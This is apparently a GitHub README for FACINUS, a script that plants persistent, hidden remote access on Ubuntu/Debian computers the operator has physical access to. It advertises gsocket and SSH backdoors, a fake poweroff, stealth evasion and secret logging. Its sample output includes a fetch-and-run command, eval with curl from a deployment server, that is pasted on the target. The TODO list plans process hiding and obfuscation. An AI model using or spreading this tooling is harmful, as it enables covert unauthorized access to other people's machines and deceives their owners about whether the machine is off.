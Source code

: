 ## FACINUS - set a 24/7 access on a Ubuntu/Debian PC you have physical access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
sudo ./install
```

## Help
You can run ./install --help to see available options.
```
./install --help
FACINUS Installation Script
Usage: ./install [options]

Options:
  --no-root            Install without root privileges (limited functionality)
  --no-services        Don't install system services
  --no-wol             Don't configure Wake-on-LAN
  --no-fake-poweroff   Don't install fake poweroff feature
  --no-gsocket         Don't install gsocket for remote access
  --no-stealth         Don't apply stealth techniques
  --light-theme        Use light theme for web interface
  --server-ip IP       Specify server IP address
  --server-port PORT   Specify server port (default: 80)
  --server-root PATH   Specify server root directory
  --verbose            Show verbose output
  --help               Show this help message
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/deployment.png"/>
<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/admin.png"/>

## TODO
- [ ] fix path traversal vulnerability
- [ ] Do fake poweroff for all possible variants for Ubuntu/Debian with gnome.
- [x] Add checks for other distros
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [x] Add options to the script (no root, no services, etc.)
- [x] Add a dark theme for the web interface
